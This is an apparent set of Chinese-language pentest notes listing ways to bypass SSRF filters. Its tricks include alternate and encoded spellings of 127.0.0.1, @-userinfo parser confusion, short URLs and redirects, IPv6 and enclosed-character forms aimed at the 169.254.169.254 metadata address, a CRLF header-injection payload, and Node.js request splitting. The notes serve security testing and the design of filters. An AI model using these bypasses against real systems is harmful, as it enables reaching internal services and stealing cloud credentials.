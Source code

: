 # 绕过
	- `127.0.0.1` 和 `localhost`
		- `127.0.1.1`
		- `127.1.0.1`
		- `10.10.1.1`
		- `127.1`
		- `0`
			- `0`在linux系统中会解析成`127.0.0.1`在windows中解析成`0.0.0.0`
		- 用A记录为`127.0.0.1`的域名
		- t.cn短网址
			- [生成](https://www.helingqi.com/url.php)
		- 302跳转
		- `。`代替`.`
-
- # SSRF绕过方式
- 1、限制为http://www.xxx.com 域名时（利用@）
	- 可以尝试采用http基本身份认证的方式绕过
	    如：http://www.aaa.com@www.bbb.com@www.ccc.com，在对@解析域名中，不同的处理函数存在处理差异
	    在PHP的parse_url中会识别www.ccc.com，而libcurl则识别为www.bbb.com。
- 2.采用短网址绕过
	- 比如百度短地址https://dwz.cn/
- 3.采用进制转换
	- 127.0.0.1八进制：0177.0.0.1。十六进制：0x7f.0.0.1。十进制：2130706433.
- 4.利用特殊域名
	- 原理是DNS解析。xip.io可以指向任意域名，即
	    127.0.0.1.xip.io，可解析为127.0.0.1
	    (xip.io 现在好像用不了了，可以找找其他的)
- 5.利用[::]
	- 可以利用[::]来绕过localhost
	    http://169.254.169.254>>http://[::169.254.169.254]
- 6.利用句号
	- 127。0。0。1 >>> 127.0.0.1
- 7、CRLF 编码绕过
	- %0d->0x0d->\r回车
	    %0a->0x0a->\n换行
	    进行HTTP头部注入
	- example.com/?url=http://eval.com%0d%0aHOST:fuzz.com%0d%0a
- 8.利用封闭的字母数字
	- 利用Enclosed alphanumerics
	    ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ >>> example.com
	    http://169.254.169.254>>>http://[::①⑥⑨｡②⑤④｡⑯⑨｡②⑤④]
	    List:
	    ① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳
	    ⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇
	    ⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛
	    ⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵
	    Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ
	    ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ
	    ⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴
	    ⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿
- 二、常见限制
	- 1.限制为http://www.xxx.com 域名
		- 采用http基本身份认证的方式绕过，即@
		    http://www.xxx.com@www.xxc.com
	- 2.限制请求IP不为内网地址
	- 当不允许ip为内网地址时：
	    （1）采取短网址绕过
	    （2）采取特殊域名
	    （3）采取进制转换
	- 3.限制请求只为http协议
	- （1）采取302跳转
	    （2）采取短地址
- # Nodejs 在HTTP请求中伪造HTTP请求
  id:: 63c7fc34-474b-48bd-a4f8-5c5a68188c89
	- 在旧版的Nodejs中`http.get(url, f)`不会判断输入url是否合法
	- 如果让`http.get("http://127.0.0.1/?p=" + p, f)`中的p为红色的部分则会伪造多个HTTP请求
	- ![Screenshot_2023-01-18_22-13-09.png](../assets/Screenshot_2023-01-18_22-13-09_1674051197854_0.png)